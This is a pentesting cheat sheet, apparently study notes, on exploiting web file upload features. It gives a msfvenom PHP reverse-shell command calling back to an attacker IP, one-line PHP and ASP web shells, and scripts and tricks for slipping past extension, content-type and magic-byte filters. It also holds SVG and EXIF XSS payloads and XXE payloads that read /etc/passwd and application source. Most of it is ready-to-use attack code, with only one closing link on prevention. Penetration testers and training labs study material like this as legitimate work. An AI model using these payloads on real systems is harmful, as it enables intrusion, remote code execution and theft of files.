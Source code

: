 ## File Upload

### Basic poc
1. Check for features which allow user to upload content (profile pictures, any documents etc...) 
2. Identify the directory which contains all uploaded files

### Crafting payloads
https://github.com/Arrexel/phpbash
https://github.com/pentestmonkey/php-reverse-shell

```bash
$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

```php
<?php system($_REQUEST['cmd']); ?>
```

```rb
<% eval request('cmd') %>
```

### Client side validation
-> Play with the file type (Folder Menu)
-> "Inspect Element" and delete the borring part 

```html
accept=".jpg,.jpeg,.png"
```

If its a js script called inside HTML file like :  
```html
<script src="./script.js"></script>
```
Delete also

### Blacklist Filter

Example of blacklist filter :

```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```
Fuzzing ignored extensions from the filter (using intruder or ffuf): 
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt


### Whitelist Filter
Example of whitelist filter : 
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

**Double Extensions** & **Reverse Double Extensions**
We can use this wordlists to fuzz extentions :
- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

Try something like : ``.php.png`` and ``.png.php`` etc...

Character Injection (PHP in version 5.X or earlier)

- %20
- %0a
- %00
- %0d0a
- /
- .\
- ...
- :

ex : shell.php%00.jpg / shell.aspx:.jpg

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### Content-Type Filter
Ex : 
```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

We can fuzz the content type using : 
```bash
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
# All content type started with image/
$ cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```

### Mime-Type Filter
Ex : 
```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

Signature & Magic Bytes :
- https://en.wikipedia.org/wiki/List_of_file_signatures
- https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime

```bash
$ echo "this is a text file" > text.jpg 
$ file text.jpg 
text.jpg: ASCII text
# adding GIF8 at the beginning 
$ file text.jpg
text.jpg: GIF image data
```

### File Upload to XSS

Put payload inside Comment or Artist parameters
```bash
$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

Using SVG file : 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### File Upload to XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
Or
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

### Preventing File Upload Vulnerabilities
https://academy.hackthebox.com/module/136/section/1309